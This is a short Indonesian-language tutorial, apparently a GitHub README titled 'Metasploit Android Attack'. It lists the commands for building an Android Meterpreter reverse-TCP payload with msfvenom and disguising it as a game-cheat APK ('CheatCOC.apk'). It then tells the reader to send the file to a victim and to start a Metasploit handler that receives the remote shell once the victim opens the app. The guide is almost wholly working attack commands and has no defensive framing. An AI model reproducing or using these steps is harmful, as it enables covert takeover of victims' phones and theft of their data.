 # Metasploit
Android Attack

$ sudo apt update

$ sudo apt upgrade

$ ifconfig (untuk mengetahui ip)

$ sudo su (masuk ke menu root)

Membuat payload dengan perintah

 # #msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.111.61(ip yang di cek tadi) LPORT=4321 R> CheatCOC.apk

tunggu dan jika sudah selesai cek aplikasi yang sudah di buat tadi di folder /home/kali

kemudian kirim aplikasi ke target/korban

buat exploit handler dengan perintah

# etc/init.d/postgresql start

# msfconsole

# use multi/handler

# set payload android/meterpreter/reverse_tcp

# set LHOST 192.168.111.61

# set LPORT 4321

# exploit

kemudian tunggu target/korban membuka aplikasi yang sudah di kirim tadi
